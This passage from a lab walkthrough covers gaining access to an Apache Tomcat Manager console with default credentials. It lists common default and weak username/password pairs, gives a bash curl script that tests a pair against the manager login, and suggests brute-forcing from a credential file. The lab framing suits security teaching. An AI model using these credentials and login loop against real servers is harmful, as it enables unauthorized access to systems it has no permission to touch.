 
## 4. Phase 2: Exploiting Default Credentials

### 4.1. Accessing Tomcat Manager Login Prompt
*   **Action:** Open `{$TOMCAT_MANAGER_URL}` (e.g., `http://{$TARGET_IP}:{$TOMCAT_ALT_PORT}/manager/html`) in your browser. You should see an HTTP Basic Authentication prompt.

### 4.2. Testing Default/Common Tomcat Credentials
*   **Action:** Try known default credentials.
*   **Common Tomcat Default/Weak Credentials:**
    *   `tomcat:s3cret` (as per scenario)
    *   `tomcat:tomcat`
    *   `admin:admin`
    *   `admin: ` (blank password)
    *   `manager:manager`
    *   `role1:role1`
    *   `both:both`
*   **Code (Conceptual `curl` to test one set of credentials):**
    ```bash
    # Ensure TOMCAT_MANAGER_URL, DEFAULT_USER, DEFAULT_PASS are set
    echo "[INFO] Attempting login to ${TOMCAT_MANAGER_URL} with ${DEFAULT_USER}:[REDACTED]"
    
    # -I to get headers, -s for silent, -L to follow redirects
    # The status code for successful basic auth is 200. Failure is 401.
    http_status_auth_attempt=$(curl -s -L -o /dev/null -w "%{http_code}" \
        -u "${DEFAULT_USER}:${DEFAULT_PASS}" \
        "${TOMCAT_MANAGER_URL}")

    if [ "${http_status_auth_attempt}" = "200" ]; then
        echo -e "\033[0;32m[SUCCESS!] Credentials ${DEFAULT_USER}:${DEFAULT_PASS} WORKED! (Status: 200 OK)\033[0m"
    else
        echo -e "\033[0;31m[FAILURE] Credentials ${DEFAULT_USER}:${DEFAULT_PASS} failed (Status: ${http_status_auth_attempt})\033[0m"
    fi
    ```
    *   **To iterate through a list of credentials (Brute force - be careful):**
        You could create a file `tomcat_creds.txt` with `user:pass` per line and loop through it.
        **Warning:** Brute-forcing can lock out accounts or trigger alerts. Use with extreme caution and only on authorized systems. For this lab, we assume the first try (`tomcat:s3cret`) works.

### 4.3. Gaining Access to Tomcat Manager Console
*   **Scenario Outcome:** "BOOM!!!!!, The username=tomcat and password=s3cret worked and the Tomcat Application Manager Console was accessible."
*   **Action:** After successful authentication in the browser, you will see the Tomcat Web Application Manager page. This page allows you to deploy, undeploy, start, and stop web applications.

---